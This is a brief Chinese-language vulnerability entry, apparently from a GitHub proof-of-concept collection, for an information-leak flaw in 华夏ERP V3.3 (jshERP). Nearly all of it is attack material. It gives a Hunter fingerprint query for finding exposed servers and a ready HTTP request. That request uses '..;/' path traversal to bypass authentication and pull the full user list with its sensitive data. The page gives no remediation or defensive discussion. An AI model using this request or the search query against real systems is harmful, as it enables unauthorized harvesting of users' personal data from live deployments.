 # 华夏ERPV3.3存在信息泄漏漏洞

华夏ERPV3.3存在信息泄漏漏洞，可获取用户敏感信息。

## hunter

```yaml
web.icon=="f6efcd53ba2b07d67ab993073c238a11"
```

## poc

```java
GET /jshERP-boot/platformConfig/getPlatform/..;/..;/..;/jshERP-boot/user/getAllList HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```



## 漏洞来源

- https://mp.weixin.qq.com/s/c12Frd6hp0a3r8A9-lVr-g